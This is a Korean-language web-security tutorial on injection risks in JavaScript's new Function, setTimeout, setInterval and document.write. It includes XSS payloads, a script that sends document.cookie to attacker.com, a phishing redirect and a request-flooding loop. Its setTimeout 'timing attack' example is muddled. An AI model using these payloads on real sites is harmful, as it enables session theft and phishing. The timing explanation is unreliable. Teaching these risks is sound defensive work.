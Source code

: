## ☪️ 동적 코드 실행 함수 (Dynamic Code Execution Functions)
#### new Function(), setTimeout(), setInterval(), document.write()

---

### **1. `new Function()`을 통한 코드 인젝션 공격**

#### **개념**:

`new Function()`은 **동적으로 JavaScript 코드를 실행**하는 강력한 함수입니다. 이 함수는 문자열을 받아서 실행 가능한 코드로 변환해 실행하는 방식입니다. 그런데 이 방식이 문제를 일으킬 수 있습니다. **외부 입력을 코드로 실행**하는 경우 **코드 인젝션** 공격에 취약해집니다.

#### **웹 해킹 관점에서의 위험**:

* **코드 인젝션 (Code Injection)**: 외부 사용자가 입력한 값을 **JavaScript 코드로 실행**하는 방식은 매우 위험합니다. 악성 코드가 삽입될 수 있기 때문입니다. 공격자는 이를 악용하여 **쿠키 탈취**, **세션 하이재킹**, **크로스 사이트 스크립팅(XSS)** 공격을 수행할 수 있습니다.

#### **공격 예시**:

**XSS (Cross-Site Scripting) 공격**

* 예를 들어, 웹 애플리케이션이 사용자로부터 **댓글**을 입력받고 이를 **동적으로 출력**하는 기능을 제공한다고 합시다. 사용자가 입력한 댓글을 `new Function()`을 통해 처리하는 코드가 있다고 가정해보겠습니다.

  **취약한 코드**:

  ```javascript
  let userComment = document.getElementById("commentInput").value;  // 사용자 댓글 입력 받기
  let dynamicComment = new Function(userComment);  // 입력된 댓글을 코드로 실행
  dynamicComment();  // 사용자 입력을 실행
  ```

  이 코드에서, 만약 사용자가 **악성 스크립트**를 입력한다면, 그 코드는 그대로 실행됩니다. 예를 들어, 사용자가 입력란에 `alert(document.cookie)`라는 코드를 삽입했다고 가정해봅시다. 이 경우, **사용자의 쿠키**가 알림창으로 출력되며 공격자는 이를 **탈취**할 수 있습니다.

  **악성 코드 예시**:

  ```javascript
  alert(document.cookie);  // 쿠키 탈취
  ```

  이 코드는 공격자가 웹 애플리케이션에서 **사용자의 쿠키**를 알아낼 수 있게 합니다. 이를 통해 공격자는 **세션 하이재킹**을 시도하거나, 다른 민감한 정보를 탈취할 수 있습니다.

---

### **2. `setTimeout()`을 통한 타이밍 공격**

#### **개념**:

`setTimeout()`은 **특정 시간 후에 한 번 실행되는** 비동기 함수입니다. 주로 지연된 실행을 위해 사용되며, 설정된 시간이 지나면 **콜백 함수**가 실행됩니다. 이 함수는 **비동기적**으로 동작하기 때문에 주어진 시간에 맞춰서 **타이밍을 조절**할 수 있습니다.

#### **웹 해킹 관점에서의 위험**:

* **타이밍 공격 (Timing Attacks)**: 공격자는 `setTimeout()`을 활용하여 **서버의 응답 시간**을 분석하거나 **사용자의 인증 정보를 추측**할 수 있습니다. 특히 인증 시스템에서는 **성공적인 로그인**과 **실패한 로그인**의 응답 시간이 다를 수 있기 때문에 이를 악용하여 **패스워드**나 **사용자 이름**을 유추할 수 있습니다.

#### **공격 예시**:

* 예를 들어, 로그인 페이지에서 `setTimeout()`을 사용하여 응답을 지연시키는 방식이 있을 수 있습니다. 공격자는 로그인 성공과 실패의 시간을 분석해, **비밀번호 추측**이나 **사용자 정보**를 유추할 수 있습니다.

  **취약한 코드 예시**:

  ```javascript
  setTimeout(() => {
    // 로그인 성공 시 수행되는 동작
    alert('로그인 성공');
  }, 500);  // 500ms 후에 실행
  ```

  이 코드는 로그인 성공 시 **500ms** 동안 지연되는데, 공격자는 여러 번 로그인 시도를 통해 **응답 시간**의 차이를 분석하고 로그인 성공 여부를 알아낼 수 있습니다.


---

### **3. `setInterval()`을 통한 서비스 거부(DoS) 공격**

#### **개념**:

`setInterval()`은 주어진 시간 간격으로 **지속적으로 함수를 반복 실행**하는 함수입니다. 주기적으로 특정 작업을 수행할 때 유용하지만, 이를 잘못 사용하면 **서버 자원 소모**나 **서비스 거부(DoS) 공격**을 유발할 수 있습니다.

#### **웹 해킹 관점에서의 위험**:

* **서비스 거부(DoS)**: 공격자는 `setInterval()`을 통해 서버에 **과도한 요청**을 반복적으로 보내거나, 클라이언트에서 불필요하게 자원을 소모시킬 수 있습니다. 이렇게 하면 서버가 과부하에 걸리거나 클라이언트 측에서 **리소스를 낭비**하게 되어 **서비스 거부 상태**에 빠질 수 있습니다.

#### **공격 예시**:

* 예를 들어, 클라이언트가 `setInterval()`을 사용하여 서버에 **주기적으로** 요청을 보내게 된다면, 서버는 과도한 요청을 처리해야 하므로 자원이 고갈되어 **서비스 거부(DoS)** 상태에 빠질 수 있습니다.

  **취약한 코드 예시**:

  ```javascript
  setInterval(() => {
    fetch('https://example.com/api');  // 서버에 계속해서 요청 보내기
  }, 10);  // 10ms마다 요청을 보냄
  ```

  이 코드는 **10ms마다** 서버에 계속 요청을 보내게 되며, 서버는 **과도한 요청 처리**로 인해 **리소스를 소모**하게 됩니다. 결국 서버는 정상적인 요청을 처리하지 못하고 **서비스가 마비**될 수 있습니다.

#### **취약점 해결**:

* **요청 간격을 제한**하고, 서버에 **불필요한 반복 요청**이 발생하지 않도록 주의해야 합니다. 또한 **API 요청에 대한 제한**(rate limiting)을 설정하여, 클라이언트에서 과도한 요청을 보내지 못하도록 방지해야 합니다.

---

### **4. document.write()`을 통한 DOM 공격**

#### **개념**:

`document.write()`는 **Java스크립트로 동적으로 HTML 콘텐츠를 삽입**할 수 있는 함수입니다. 이 함수는 주로 **페이지 로딩 중**에 콘텐츠를 삽입하거나 수정하는 데 사용됩니다. 그러나 **동적으로 HTML을 삽입**할 수 있는 강력한 기능을 제공하지만, 그만큼 **보안상 심각한 취약점을 초래할 수 있습니다**. 주로 **XSS (Cross-Site Scripting)** 공격이나 **페이지 위조** 같은 문제를 유발할 수 있습니다.

#### **웹 해킹 관점에서의 위험**:

* **페이지 내용 덮어쓰기**:
  `document.write()`는 페이지 로딩이 완료된 후에는 **문서의 기존 콘텐츠를 덮어쓸** 수 있습니다. 만약 사용자 입력이 포함되어 있다면, **기존 콘텐츠가 모두 삭제**되고 새로운 콘텐츠로 바뀌게 됩니다. 이로 인해 **사용자 경험**에 심각한 영향을 미칠 수 있습니다.

* **스크립트 삽입**:
  `document.write()`는 **HTML 요소를 삽입**하기 위해 사용되며, 사용자가 입력한 값이 HTML 코드로 삽입되는 방식입니다. 이로 인해 **HTML 태그나 스크립트**가 삽입되면, 악성 코드가 실행될 수 있습니다.

#### **공격 예시**:

웹 애플리케이션에서 **사용자 댓글**을 입력받아 페이지에 동적으로 출력하는 기능을 제공한다고 합시다. 이때 \*\*`document.write()`\*\*로 사용자의 댓글을 페이지에 삽입하는 방식을 사용하고 있다고 가정합니다.

```javascript
let userComment = document.getElementById("commentInput").value;  // 사용자 댓글 입력 받기
document.write(userComment);  // 입력된 값을 그대로 페이지에 삽입
```

#### **악성 입력**

악의적인 사용자가 `document.write()`의 입력 필드에 JavaScript 코드를 삽입할 수 있다면, 이는 **XSS 공격**으로 이어질 수 있습니다. 예를 들어, 공격자가 다음과 같이 입력한다고 가정해봅시다:

```html
<script>alert('XSS Attack!');</script>
```

이 코드가 `document.write()`에 의해 실행되면, 웹 페이지에 **알림창이 뜨게 되며**, 이는 공격자가 **악성 스크립트를 실행**시키는 방법입니다.

#### **결과**

* **쿠키 탈취**: 공격자는 \*\*`document.cookie`\*\*를 이용해 사용자의 **세션 쿠키**를 탈취할 수 있습니다.

  ```javascript
  <script>document.location='https://attacker.com?cookie=' + document.cookie;</script>
  ```

  위와 같은 스크립트가 삽입되면, 사용자의 쿠키가 공격자에게 전송되어 세션 하이재킹 공격에 사용될 수 있습니다.

* **피싱 공격**: 공격자는 **가짜 로그인 페이지**를 삽입해 사용자가 로그인 정보를 입력하게 유도할 수 있습니다.

  ```html
  <script>document.location="https://fake-login.com"</script>
  ```

  이 스크립트는 사용자를 **피싱 사이트**로 리디렉션시켜 **사용자 정보를 탈취**할 수 있습니다.

